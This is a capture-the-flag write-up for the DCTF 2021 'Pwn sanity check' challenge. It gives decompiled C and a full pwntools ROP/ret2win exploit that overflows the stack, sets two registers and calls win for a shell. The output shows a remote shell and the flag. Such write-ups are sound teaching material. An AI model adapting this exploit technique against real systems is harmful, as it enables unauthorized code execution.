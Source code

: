 # DCTF 2021

## Pwn sanity check

> 100
> 
> This should take about 1337 seconds to solve.
> 
> `nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480`
>
[pwn\_sanity\_check](pwn_sanity_check)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _ret2win_


## Summary

Intended solution for a basic ROP/ret2win. 


## Analysis

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_48 [60];
  int local_c;
  
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == 0xdeadc0de) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}

void win(int param_1,int param_2)
{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == 0xdeadbeef) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    // WARNING: Subroutine does not return
      exit(0);
    }
  }
  return;
}
```

`vuln` tolls you into thinking this is an easy variable overwrite attack, but `shell` does nothing.  You'll have to smash the stack, set `rdi` and `rsi` to then call `win`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./pwn_sanity_check')

if args.REMOTE:
    p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))

payload  = b''
payload += 0x48 * b'A'
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi_r15)
payload += p64(0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter('joke\n',payload)
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/pwn_sanity_check/pwn_sanity_check'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
will this work?
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
```

